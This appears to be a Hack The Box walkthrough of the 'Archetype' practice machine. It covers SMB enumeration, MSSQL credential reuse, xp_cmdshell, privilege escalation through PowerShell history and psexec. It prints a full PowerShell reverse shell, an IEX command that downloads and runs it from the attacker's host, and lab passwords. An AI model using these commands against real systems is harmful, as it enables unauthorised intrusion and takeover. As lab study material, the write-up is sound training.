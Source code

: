 # HTB - Archetype

I've been wanting to get into Hack The Box for a while now. The first machine I've worked on was Archetype. It's a machine labelled as *Very Easy* and is part of HTB's *Starting Point*. So let's get started:

The first thing we are going to do is an initial Nmap scan with the tags : `-sC` (to tell Nmap to use it's default scripts), `-sV` (to get more information about the services running on the different ports of the machine) and using `-oN` we save the scan in a file. We get the following output:

![Archetype/nmap_initial.png](Archetype/nmap_initial.png)

Okay, so we can identify this box as a Windows machine and we find out that there is a Microsoft SQL Server running on port `1433` and there is a Samba on port `445`.

We also run a more aggressive (`-A`) Nmap scan on all ports (`-p-`) to get more information. The output is as following:

![Archetype/nmap_all_ports_aggressive.png](Archetype/nmap_all_ports_aggressive.png)

We don't get any interesting additional information here so let's move to on to enumerating Samba.

The initial nmap scan tells us that we can access Samba using the `guest` account, so we will do just that using `smbmap`. We use `-u` to specify the user and `-H` to specify the host's IP. 

![Archetype\smbmap.png](Archetype/smbmap.png)

We find out that backups and IPC$ are accessible as read only. So using smbclient we will access the both of them. First let's check out `backups`:

![Archetype/smbclient_backups.png](Archetype/smbclient_backups.png)

We find an interesting file here, `prod.dtsConfig`. We download it onto our machine using `get`.

Now let's take a look at `IPC$`:

![Archetype/smbclient_ipc.png](Archetype/smbclient_ipc.png)

As you can see, we are unable to get any information from `IPC$` so let's take a look at `prod.dtsConfig`'s content.

![Archetype/prod_dtsConfig.png](Archetype/prod_dtsConfig.png)

We find creds here that look to be for the mssql server: `Archetype/sql_svc:M3g4c0rp123` (Note: the format here is `username:password`)

Let's try getting in the MSSQL server using the creds we just found. We will be using an impacket script called `mssqlclient.py`. This script is already on kali linux but can be found [here](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py). The full command is: `python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth ARCHETYPE/sql_svc@10.10.10.27`.

![Archetype/mssql.png](Archetype/mssql.png)

Great, it worked. The first thing we are going to run is `enable_xp_cmdshell`  and we will prepare a powershell reverse shell on our machine that we are going to use to access the machine.

The code of the reverse shell is: 

```powershell
$client = New-Object System.Net.Sockets.TCPClient("<ATTACKING-IP>", <port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =  $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
We are going to host the reverse shell file using the module `http.server` in python3 and then we'll download it and execute it on the machine we are trying to hack. We run `python3 -m http.server` in the directory containing our powershell reverse shell on our attacking machine. We then run `nc -lnvp <port>` on our attacking machine so we can get the reverse shell. (Note: the `<port>` specified here is the same one specified in the reverse shell code).

Now we go back to mssql server and run `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.217/shell.ps1\");"` to download and execute the reverse shell.

![Archetype/call_revshell.png](Archetype/call_revshell.png) 

Wouhou we get a call back on our attacking machine and we have a reverse shell. Now let's enumerate the machine to find a way to escalate our privileges. 

On this machine, we are able to take a look at the command history of powershell and if we run: `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` we get the administrator's password: `MEGACORP_4dm1n!!`.

![Archetype/history_cmd.png](Archetype/history_cmd.png)

Okay great now we just have to reconnect to the machine as administrator using another impacket script, `psexec.py`. We run `python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27` and *voilà*!

![Archetype/psexec.png](Archetype/psexec.png)

Now we just need to get the flags!


